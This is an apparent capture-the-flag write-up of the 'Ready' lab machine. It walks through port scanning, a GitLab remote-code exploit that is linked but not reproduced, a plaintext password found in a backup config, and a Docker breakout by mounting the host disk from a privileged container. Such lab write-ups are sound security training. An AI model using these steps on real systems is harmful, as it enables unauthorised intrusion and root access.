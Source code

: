 # Ready

## Summary

Ready is a medium rated box. After initial enumeration a Gitlab instance is found on port 80. The version of Gitlab that is running is found to be vulnerable to an RCE exploit. After getting a shell on the box we notice that we are inside a docker container. Eventually we find the docker has mounted the host's file system. This allows us to read files off of the host system. We then find root's id_rsa which allows us to SSH into the machine as root.

## Enumeration

Using Nmap we find that there are 2 open ports. The first is 22 which hosts SSH and the other is 5080 which hosts a Gitlab instance.

### All ports
```bash
sudo nmap -p- 10.10.10.220 -oA nmap/all-ports
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 18:51 EDT
Nmap scan report for 10.10.10.220
Host is up (0.018s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen

Nmap done: 1 IP address (1 host up) scanned in 1288.04 seconds
```

### More info
```bash
sudo nmap -p22,5080 -sC -sV -oA nmap/info 10.10.10.220
[sudo] password for tc:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 19:14 EDT
Nmap scan report for 10.10.10.220
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.86 seconds
```

## Port 5080

Navigating to the Gitlab instance we can register a new user. After registering a user we can poke around in the system. Eventually we come across a version number. The gitlab instace is vulnerable to [this](https://www.exploit-db.com/exploits/49257) attack. In order to get the attack to work all we need is our cookie and authenticity tocken. After changing those 2 things and the IP and port for the reverse shell we end up with a shell as the Git user.

## Docker Container

As the git user we find that we are in a docker container.

```bash
[+] Is ASLR enabled? ............... Yes  
[+] Printer? ....................... lpstat Not Found  
[+] Is this a virtual machine? ..... Yes (docker)  
[+] Is this a container? ........... Looks like we're in a Docker container  
[+] Any running containers? ........ No
```

At this point I started looking around for interesting files on the system. I did this with ```find```.

```bash
find / 2>/dev/null | grep -v "bin\|lib\|proc\|sys\|var\|run\|etc\|dev\|usr\|icu\|terminfo\|locale\|postgresql\|cookbooks\|embedded\|LICENSES"
...[snip]...
/opt/backup/gitlab.rb
/opt/backup/docker-compose.yml
/opt/backup/gitlab-secrets.json
```

In the gitlab-secrets.json we find a password.

```bash
Found /opt/backup/gitlab.rb
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

Using this password we can become root in the Docker container. 

## Escaping Docker

As root in the container we notice that the privileged flag is set as true. We can see this in the ```docker-compose.yaml``` file.

```YAML
cat /opt/backup/docker-compose.yml
version: '2.4'

services:
  web:
    image: 'gitlab/gitlab-ce:11.4.7-ce.0'
    restart: always
    hostname: 'gitlab.example.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://172.19.0.2'
        redis['bind']='127.0.0.1'
        redis['port']=6379
        gitlab_rails['initial_root_password']=File.read('/root_pass')
    networks:
      gitlab:
        ipv4_address: 172.19.0.2
    ports:
      - '5080:80'
      #- '127.0.0.1:5080:80'
      #- '127.0.0.1:50443:443'
      #- '127.0.0.1:5022:22'
    volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
    privileged: true
    restart: unless-stopped
    #mem_limit: 1024m

networks:
  gitlab:
    driver: bridge
    ipam:
      config:
        - subnet: 172.19.0.0/16
```

Following along with the [hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#privileged-flag) article we can escape the docker container. We find that we can use the fdisk command in the docker container. Using this command we notice that a linux filesystem on /dev/sda2.

```bash
fdisk -l
...[snip]...
Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem
/dev/sda3  37746688 41940991  4194304   2G Linux swap
```

Mounting this device into the docker container gives us access to the filesystem of the remote machine. 

```bash
root@gitlab:/mnt# mount /dev/sda2 /mnt/test/
root@gitlab:/mnt# cd test/
root@gitlab:/mnt/test# ls -la
total 100
drwxr-xr-x  20 root root  4096 Dec  7 17:44 .
drwxr-xr-x   1 root root  4096 Apr  7 20:56 ..
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   3 root root  4096 Jul  3  2020 boot
drwxr-xr-x   2 root root  4096 May  7  2020 cdrom
drwxr-xr-x   5 root root  4096 Dec  4 15:20 dev
drwxr-xr-x 101 root root  4096 Feb 11 14:31 etc
drwxr-xr-x   3 root root  4096 Jul  7  2020 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 May  7  2020 lost+found
drwxr-xr-x   2 root root  4096 Apr 23  2020 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   3 root root  4096 Jun 15  2020 opt
drwxr-xr-x   2 root root  4096 Apr 15  2020 proc
drwx------  10 root root  4096 Dec  7 17:02 root
drwxr-xr-x  10 root root  4096 Apr 23  2020 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   6 root root  4096 May  7  2020 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
drwxr-xr-x   2 root root  4096 Apr 15  2020 sys
drwxrwxrwt  12 root root 12288 Apr  7 20:57 tmp
drwxr-xr-x  14 root root  4096 Apr 23  2020 usr
drwxr-xr-x  14 root root  4096 Dec  4 15:20 var
```

At this point we can read any file on the host machine as root. This means we can read root.txt or root's id_rsa. 